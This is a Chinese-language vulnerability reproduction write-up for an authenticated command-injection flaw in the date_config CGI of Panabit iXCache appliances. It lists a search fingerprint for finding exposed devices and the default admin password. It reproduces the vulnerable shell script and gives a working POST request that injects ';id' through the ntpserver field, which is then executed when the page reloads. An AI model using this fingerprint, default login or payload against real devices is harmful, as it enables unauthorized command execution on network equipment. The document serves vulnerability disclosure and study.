# Panabit iXCache date_config 后台命令执行漏洞

## 漏洞描述

Panabit iXCache date_config模块存在命令拼接，导致可执行任意命令

## 漏洞影响

```
Panabit iXCache
```

## 网络测绘

```
title="iXCache"
```

## 漏洞复现

登录页面


默认账号密码为：admin/ixcache , 存在漏洞的模块为

```
/cgi-bin/Maintain/date_config
```

找到请求方式传参可以通过查看登陆页面文件获取, 通过抓包得知验证文件为 userverify.cgi



接收请求参数的方式如下，通过快速搜索查找可能交互的地方

```
"${REQUEST_METHOD}" = "POST"
```



这样就可以快速找到可以传参交互的地方，查看的过程发现存在可控点



```
#!/bin/sh
#This script is created by ssparser automatically. The parser first created by MaoShouyan
printf "Content-type: text/html
Cache-Control: no-cache

"
echo -n ""; 
. ../common/common.sh
myself="/cgi-bin/Maintain/`basename $0`"

echo -n "
<script languate=\"javascript\">
function Validate(frm)
{
	frm.ntpserver.value = TrimAll(frm.ntpserver.value);
	if (frm.ntpserver.value != \"\" && !IsIPAddr(frm.ntpserver.value)) {
		alert(\"请输入IP地址!\");
		frm.ntpserver.select();
		return false;
	}
	return true;
}
</script>
";
if [ "${REQUEST_METHOD}" = "POST" ]; then
	operator_check "${myself}"
	[ "${CGI_ntpserver}" = "" ] && CGI_ntpserver="0.0.0.0"
	echo "ntpserver_ip=${CGI_ntpserver}" > ${PGETC}/ntp.conf
	timefmt="${CGI_year}${CGI_month}${CGI_day}${CGI_hour}${CGI_minute}.${CGI_second}"
	errmsg=`date ${timefmt}`
	[ "${CGI_ntpserver}" != "0.0.0.0" ] && ntpdate -t 10 ${CGI_ntpserver}
	
	afm_dialog_msg "操作成功!"
fi
year=`date "+%Y"`
month=`date "+%m"`
day=`date "+%d"`
hour=`date "+%H"`
minute=`date "+%M"`
second=`date "+%S"`
if [ -f ${PGETC}/ntp.conf ]; then
	. ${PGETC}/ntp.conf
	CGI_ntpserver="${ntpserver_ip}"
fi
[ "${CGI_ntpserver}" = "" ] && CGI_ntpserver="0.0.0.0"

echo -n "
<body>
"; cgi_show_title "系统管理->系统时间" 
echo -n "
<br>
<form method=post onsubmit=\"return Validate(this)\" action=\"${myself}\">
<table width=700 border=0 cellspacing=1 cellpadding=1 bgcolor=\"#ffffff\">
<tr id=row1 height=22>
	<td width=40></td>
	<td width=90 align=left>NTP服务器</td>
	<td width=* align=left>
		<input type=text name=ntpserver style=\"width:120px\" value=\"${CGI_ntpserver}\"></input>&nbsp;(请输入IP地址，目前不支持域名解析,0.0.0.0表示关闭NTP)</td>
</tr>
</table>
<br>
<table width=700 border=0 cellspacing=1 cellpadding=1 bgcolor=\"#ffffff\">
<tr id=row1 height=22>
	<td width=40></td>
	<td width=90 align=left>年/月/日</td>
	<td width=* align=left>
	<select name=year style=\"width:60px\" value=${year}>
	";
		tmpvar=2000
		while [ ${tmpvar} -le 2020 ]; do
			if [ ${tmpvar} -eq ${year} ]; then
				echo "<option value=${tmpvar} selected>${tmpvar}</option>"
			else
				echo "<option value=${tmpvar}>${tmpvar}</option>"
			fi
			tmpvar=$((${tmpvar} + 1))
		done
	
echo -n "</select>年
	<select name=month style=\"width:60px\" value=${month}>
	";
		tmpvar=1
		while [ ${tmpvar} -le 12 ]; do
			selected=""
			[ ${tmpvar} -eq ${month} ] && selected="selected"
			if [ ${tmpvar} -lt 10 ]; then
				echo "<option value=\"0${tmpvar}\" ${selected}>${tmpvar}</option>"
			else
				echo "<option value=\"${tmpvar}\" ${selected}>${tmpvar}</option>"
			fi
			tmpvar=$((${tmpvar} + 1))
		done
	
echo -n "</select>月
	<select name=day style=\"width:60px\" value=${day}>
	";
		tmpvar=1
		while [ ${tmpvar} -le 31 ]; do
			selected=""
			[ ${tmpvar} -eq ${day} ] && selected="selected"
			if [ ${tmpvar} -lt 10 ]; then
				echo "<option value=\"0${tmpvar}\" ${selected}>${tmpvar}</option>"
			else
				echo "<option value=\"${tmpvar}\" ${selected}>${tmpvar}</option>"
			fi
			tmpvar=$((${tmpvar} + 1))
		done
	
echo -n "</select>日</td>
</tr>
<tr id=row1>
	<td></td>
	<td align=left>时/分/秒</td>
	<td width=* align=left>
	<select name=hour value=0 style=\"width:60px\" value=${hour}>
	";
		tmpvar=0
		while [ ${tmpvar} -le 23 ]; do
			selected=""
			[ ${tmpvar} -eq ${hour} ] && selected="selected"
			if [ ${tmpvar} -lt 10 ]; then
				echo "<option value=\"0${tmpvar}\" ${selected}>${tmpvar}</option>"
			else
				echo "<option value=\"${tmpvar}\" ${selected}>${tmpvar}</option>"
			fi
			tmpvar=$((${tmpvar} + 1))
		done
	
echo -n "</select>时
	<select name=minute value=0 style=\"width:60px\" value=${minute}>
	";
		tmpvar=0
		while [ ${tmpvar} -le 59 ]; do
			selected=""
			[ ${tmpvar} -eq ${minute} ] && selected="selected"
			if [ ${tmpvar} -lt 10 ]; then
				echo "<option value=\"0${tmpvar}\" ${selected}>${tmpvar}</option>"
			else
				echo "<option value=\"${tmpvar}\" ${selected}>${tmpvar}</option>"
			fi
			tmpvar=$((${tmpvar} + 1))
		done
	
echo -n "</select>分
	<select name=second value=0 style=\"width:60px\" value=${second}>
	";
		tmpvar=0
		while [ ${tmpvar} -le 59 ]; do
			selected=""
			[ ${tmpvar} -eq ${second} ] && selected="selected"
			if [ ${tmpvar} -lt 10 ]; then
				echo "<option value=\"0${tmpvar}\" ${selected}>${tmpvar}</option>"
			else
				echo "<option value=\"${tmpvar}\" ${selected}>${tmpvar}</option>"
			fi
			tmpvar=$((${tmpvar} + 1))
		done
	
echo -n "</select>秒</td>
</tr>
</table>
<table style=\"width:700; border-bottom:1px #787882 solid; color:#0000ff\">
<tr><td align=right>&nbsp;</td></tr>
</table>
<table style=\"width:700\"> 
<tr>
        <td align=right><input type=submit style=\"width:70\" value=\"提交\"></input>
	<input type=hidden name=ifname value=\"fxp1\"></input></td>
</tr>
</table>
</form>
</table>
</center>
</body>
</html>
";
```



${CGI_ntpserver} 参数可以发现，受用户可控



主要位置注意这个代码位置

```
echo "ntpserver_ip=${CGI_ntpserver}" > ${PGETC}/ntp.conf
```

这里将参数写入 PGETC/ntp.conf 文件，查看文件位置，看一下变量 {PGETC} 配置



在 /etc 目录下找到了这个文件



继续向下看



可以发现当 ntp.conf 文件中写入其他参数就会造成命令执行，思路如下



构造请求

```
POST /cgi-bin/Maintain/date_config

ntpserver=0.0.0.0;id&year=2021&month=08&day=14&hour=17&minute=04&second=50&tz=Asiz&bcy=Shanghai&ifname=fxp1
```



成功写入 ntp.conf 文件为 0.0.0.0;id, 再次访问该页面就可以获取命令执行结果



交互处可进行命令拼接造成注入

